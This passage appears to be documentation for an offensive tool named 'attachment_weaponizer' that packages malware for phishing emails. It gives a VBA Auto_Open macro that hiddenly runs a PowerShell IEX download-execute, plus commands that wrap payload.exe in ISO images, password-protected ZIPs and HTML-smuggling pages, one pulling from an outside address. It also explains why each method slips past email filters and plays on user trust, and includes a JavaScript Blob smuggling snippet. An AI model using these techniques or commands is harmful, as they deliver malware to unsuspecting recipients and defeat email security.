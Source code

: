 **Example VBA:**
```vba
Sub Auto_Open()
    Shell "powershell -c IEX(...)", vbHide
End Sub
```

### 2. ISO Files

Create ISO disk images containing payloads:

```bash
python -m attachment_weaponizer iso payload.exe --output software.iso
```

**Why ISO files work:**
- Often bypass email security filters
- Users trust disk image formats
- Can contain multiple files
- Hide true file extensions

**Requires:** `mkisofs` or similar tool

### 3. Password-Protected ZIPs

Create encrypted ZIP archives:

```bash
python -m attachment_weaponizer password-zip payload.exe --password 2024
```

**Why this works:**
- Email security cannot scan encrypted content
- Password in email body seems legitimate
- Users expect protected documents
- Bypasses attachment filters

**Best with:** `pyminizip` or `pyzipper` for AES encryption

### 4. HTML Smuggling

Embed payload in HTML file downloaded via JavaScript:

```bash
python -m attachment_weaponizer html-smuggling http://10.10.14.5/payload.exe
```

**How it works:**
- Payload base64-encoded in HTML
- JavaScript decodes and "downloads" via Blob API
- Never touches network (if embedded)
- Bypasses email attachment filters completely

**Example:**
```javascript
var payload = "BASE64_ENCODED_PAYLOAD";
var binary = atob(payload);
var blob = new Blob([bytes]);
// Create download link
```
